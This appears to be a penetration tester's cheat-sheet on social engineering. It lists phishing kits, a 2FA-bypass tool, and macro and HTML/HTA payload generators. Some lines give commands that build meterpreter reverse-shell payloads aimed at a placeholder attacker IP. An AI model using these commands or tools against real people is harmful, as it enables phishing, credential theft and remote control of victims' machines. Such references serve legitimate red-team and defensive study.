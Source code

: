 # Social Engineering

## General

#### Social engineering toolkit (seh) (https://github.com/trustedsec/social-engineer-toolkit)
Clones sites for phishing and more.

#### ReelPhish (https://github.com/fireeye/ReelPhish)
Bypasses 2FA.

#### GoPhish (https://getgophish.com)
Automated phishing mails. There is also phishing-frenzy (ruby) and king-phisher (python).

## Office Macros
* empire has a macro stager `windows/macro`
* unicorn (https://github.com/trustedsec/unicorn) can create payloads for meterpreter `./unicorn.py windows/meterpreter/reverse_https <attackerip> 443 macro` and start handler with `msfconsole -r ./unicorn.rc`
* automated via luckystrike (https://github.com/curi0usJack/luckystrike)
* VBad (https://github.com/Pepitoh/VBad) creates heavily obfuscated macro payloads
* there is also DDE Attacks (mostly patched) via empire `windows/macroless_msword`

## Webpages
* EmbedInHTML hides Malware in Websites, downloads payload, executes it, deletes traces (https://github.com/Arno0x/EmbedInHTML) `python embedInHTML.py -k keypassshere -f meterpreter.xll -o index.html -w`
* for hta payloads (https://github.com/nccgroup/demiguise) `python demiguise.py -k hello -c "cmd.exe /c <pscommand>" -o Outlook.Application -o test.hta`
* jenkins exploit via (https://github.com/cheetz/generateJenkinsExploit)

tags: [social engineering]